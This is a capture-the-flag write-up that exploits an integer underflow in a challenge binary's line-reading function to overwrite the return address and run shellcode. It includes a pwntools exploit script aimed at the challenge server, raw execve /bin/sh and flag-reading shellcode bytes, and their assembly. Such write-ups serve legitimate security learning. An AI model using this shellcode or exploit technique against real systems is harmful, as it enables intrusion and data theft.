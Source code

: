 Checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments

```
We are given a binary that opens a file from argv[2] if provided; otherwise, it uses stdin.
```c++
int main(int argc, char **argv) {
    FILE *input;
    char buff[1024];
    
    if(argc > 1) {
        input = fopen(argv[1], "r");
        if(input == NULL) {
            fprintf(stderr, "Failed to open '%s': %s", argv[1], strerror(errno));
            return 2;
        }
    } else {
        input = stdin;
    }
    
    printf("Starting copy into buffer `%p`.\n", buff);
    if(get_line(input, buff, sizeof(buff)) == 0) {
        printf("Input: %s\n", buff);
    } else {
        printf("Failed to input a line.\n");
    }
    
    return 0;
}
```

A leak is also provided to us by the program.
```c++
printf("Starting copy into buffer `%p`.\n", buff);
```

The file is then passed to a function called get_line, which is supposed to copy a line from the file to the buffer.
```c++
int get_line(FILE *in_file, char *s, int len)
{
    int i = len;
    int c = 0;
    for (;;) {
        while (--i > 0) {
            c = fgetc(in_file);
            if (c == '\r' || c == '\n')
                break;
            if ((int)c == EOF)
                return ERROR_EOF;
            *s++ = (char)c;
        }
        if (c != '\n')
            c = fgetc(in_file); /* got \r or something else, now get \n */
        if (c == '\n') {
            *s = '\0';
            break;
        }
        else if ((int)c == EOF)
            return ERROR_EOF;
    }
    return ERROR_OK;
}
```
This function has two loops: an infinite for loop, which only breaks when it encounters a new line character or EOF, and a while loop inside the for loop. The while loop copies a character from the file into a buffer as long as the character is not '\r' or '\n' and it is not EOF. The while loop decrements **i** by one in each iteration before checking if **i** is greater than 0. If it is, the loop continues. So, this function basically gets a line from the file by stopping at '\n'. The maximum length of the line is supposed to be determined by the len argument, which in this case is 1024

# The vulnerability

The while loop has an integer underflow. Since the program subtracts 1 from **i** in each iteration of the for loop before checking if it is greater than 0, providing input larger than 1024 bytes can turn **i** into a negative number.


Disassembly of getline
```
endbr64
push    rbp
mov     rbp, rsp
sub     rsp, 30h
mov     [rbp+in_file], rdi
mov     [rbp+s], rsi
mov     [rbp+len], edx
mov     eax, [rbp+len]
mov     [rbp+i], eax
mov     [rbp+c], 0
jmp     short loc_401255
loc_401255
sub     [rbp+i], 1
cmp     [rbp+i], 0
jg      short loc_40121C   // if [rbp+i] is greater than 0 then jump inside the while loop
```
# Exploiting the integer underflow

First 1024 bytes of the input should make **i** : 0 and one more more byte will make i : 0xFFFFFFFF which is -1 in signed. jg is used for signed numbers. Once I reach 0x7fffffff the jg instruction will make a jump to loc_40121C as 0x7fffffff is 2147483647 in signed.

1024 + 0x80000000
This many bytes should allow for a second write. 
In the first write I wrote my shellcode since NX isn't enabled.

In the second write, I wrote 25 bytes and overwrote the saved Instruction Pointer (IP) with the address of our buffer, executing a simple ret2shellcode.

I was able to get a stable shell locally, but not remotely. So, I tried an open_read_write shellcode to read "/flag.txt" and write it to stdout. however, that didn't work remotely for some reason.
```python
from pwn import *

proc = remote("0.cloud.chals.io", 22110)
proc.sendline("./safe_getline")

proc.recvuntil("`0x")
leak = proc.recvuntil("`.")
leak = leak[:len(leak)-2]
leak = int(leak,16)

print(hex(leak))
#gdb.attach(proc, gdbscript='break *0x401294')
binsh_shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
open_read_write_shellcode = b"\x6A\x74\x48\xB8\x2F\x66\x6C\x61\x67\x2E\x74\x78\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x02\x00\x00\x00\x0F\x05\x48\x83\xEC\x40\x48\x89\xE6\x48\x89\xC7\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC2\x40\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\x89\xE6\x48\x89\xC2\x48\xC7\xC0\x01\x00\x00\x00\x0F\x05"

shellcode = open_read_write_shellcode

padding = 25 * b"A"

payload = shellcode + b"A" * (1024-len(shellcode)) + b"K" * 0x80000000+ padding + p64(leak)

proc.sendline(payload)

proc.interactive()
```

open_read_write shellcode 
```
push 0x74
mov rax, 0x78742e67616c662f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x2
syscall


sub rsp, 0x40
mov rsi, rsp
mov rdi, rax
mov rax, 0x0
mov rdx, 0x40
syscall

mov rdi, 0x1
mov rsi, rsp
mov rdx, rax 
mov rax, 0x1
syscall
```
assembled using https://defuse.ca/online-x86-assembler.htm









